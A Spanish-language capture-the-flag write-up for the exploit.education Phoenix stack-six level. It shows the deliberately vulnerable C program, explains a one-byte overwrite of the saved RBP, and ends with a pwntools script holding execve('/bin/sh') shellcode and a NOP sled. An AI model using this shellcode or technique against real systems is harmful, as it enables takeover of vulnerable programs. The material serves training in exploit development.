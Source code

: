 # STACK-SIX amd64

Éste nivel presenta el uso de ataques de buffer overflow de 1 byte para redirigir la ejecución.

## CÓDIGO FUENTE

```c
/*
 * phoenix/stack-six, by https://exploit.education
 *
 * Can you execve("/bin/sh", ...) ?
 *
 * Why do fungi have to pay double bus fares? Because they take up too
 * mushroom.
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *what = GREET;

char *greet(char *who) {
  char buffer[128];
  int maxSize;

  maxSize = strlen(who);
  if (maxSize > (sizeof(buffer) - /* ensure null termination */ 1)) {
    maxSize = sizeof(buffer) - 1;
  }

  strcpy(buffer, what);
  strncpy(buffer + strlen(buffer), who, maxSize);

  return strdup(buffer);
}

int main(int argc, char **argv) {
  char *ptr;
  printf("%s\n", BANNER);

#ifdef NEWARCH
  if (argv[1]) {
    what = argv[1];
  }
#endif

  ptr = getenv("ExploitEducation");
  if (NULL == ptr) {
    // This style of comparison prevents issues where you may accidentally
    // type if(ptr = NULL) {}..

    errx(1, "Please specify an environment variable called ExploitEducation");
  }

  printf("%s\n", greet(ptr));
  return 0;
}
```

Analizando el código que tenemos delante podemos ver que:

* El código lee una variable de entorno llamada **ExploitEducation** y la pasa a la función **greet** en la variable **who**.
* Después copia el mensaje **GREET** al buffer que dice `"Welcome, I am pleased to meet you"`.
* Después chequea el tamaño del input (máximo **127 bytes**).
* Ahora viene el fallo: Copia el input en el **buffer + 34** (longitud de GREET), por tanto, si el tamaño de nuestro input es **127 bytes** (máximo) podemos **sobreescribir 34 bytes** del **stack**.

{% hint style="danger" %}
En total podemos escribir 34 + 127 = 161 bytes.&#x20;

Esto **no es suficiente para sobreescribir la dirección de retorno** pero sí lo es para sobreescribir el byte menos significativo del **RBP** almacenado
{% endhint %}

## EXPLICACIÓN DEL EXPLOIT

Sabemos que el registro RBP se utiliza para restaurar el RSP al final de la función main y después saltar a la dirección de retorno.

Al finalizar main se ejecuta el [epílogo de la función](../../teoria/ensamblador.md#epilogo-de-una-funcion). Se ejecuta la instrucción `leave` y posteriormente la instrucción `ret`.  La instrucción `leave` coge el valor de **RBP** y lo introduce en **RSP** (lo que ignora el **stack frame** de la función que se termina). Después saca el valor de **RBP** del stack. Por último `ret` retorna a la dirección del **RSP**, en este caso, la dirección que nosotros hemos manipulado en el **RBP**.

Por tanto, la idea del **exploit** es modificar **RBP** para apuntar a una dirección donde **RBP+8** sea el inicio de nuestra variable de entorno **ExploitEducation**.

## PREPARANDO EL EXPLOIT

```python
# solve.py
# From https://n1ght-w0lf.github.io/binary%20exploitation/stack-six/

from pwn import *

shellcode = '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

buff = ""
buff += '\x90' * 20		# some NOP sled is always good :)
buff += shellcode
buff += 'A' * (126 - len(buff))
buff += '\xd0'

print(buff)
```
